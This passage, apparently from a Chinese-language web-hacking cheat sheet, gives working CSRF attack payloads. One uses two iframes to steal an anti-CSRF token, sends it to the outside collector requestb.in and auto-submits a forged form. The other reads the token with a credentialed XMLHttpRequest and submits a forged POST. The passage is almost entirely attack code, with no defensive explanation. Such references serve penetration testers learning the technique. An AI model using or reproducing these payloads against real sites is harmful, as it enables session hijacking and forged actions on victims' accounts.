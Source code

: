 ```html
}
</script>
```
### **窃取令牌并使用 2 个 iframe 发送**
```html
<script>
var token;
function readframe1(){
token = frame1.document.getElementById("profile").token.value;
document.getElementById("bypass").token.value = token
loadframe2();
}
function loadframe2(){
var test = document.getElementbyId("frame2");
test.src = "http://requestb.in/1g6asbg1?token="+token;
}
</script>

<iframe id="frame1" name="frame1" src="http://google.com?param=VALUE" onload="readframe1()"
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>

<iframe id="frame2" name="frame2"
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>
<body onload="document.forms[0].submit()">
<form id="bypass" name"bypass" method="POST" target="frame2" action="http://google.com?param=VALUE" enctype="multipart/form-data">
<input type="text" name="username" value="z">
<input type="checkbox" name="status" checked="">
<input id="token" type="hidden" name="token" value="0000" />
<button type="submit">Submit</button>
</form>
```
### **POST通过Ajax窃取CSRF令牌并使用表单发送POST**
```html
<body onload="getData()">

<form id="form" action="http://google.com?param=VALUE" method="POST" enctype="multipart/form-data">
<input type="hidden" name="username" value="root"/>
<input type="hidden" name="status" value="on"/>
<input type="hidden" id="findtoken" name="token" value=""/>
<input type="submit" value="valider"/>
</form>

<script>
var x = new XMLHttpRequest();
function getData() {
x.withCredentials = true;
x.open("GET","http://google.com?param=VALUE",true);
x.send(null);
}
x.onreadystatechange = function() {
if (x.readyState == XMLHttpRequest.DONE) {
var token = x.responseText.match(/name="token" value="(.+)"/)[1];
document.getElementById("findtoken").value = token;
document.getElementById("form").submit();
}
}
</script>
```
### CSRF与Socket.IO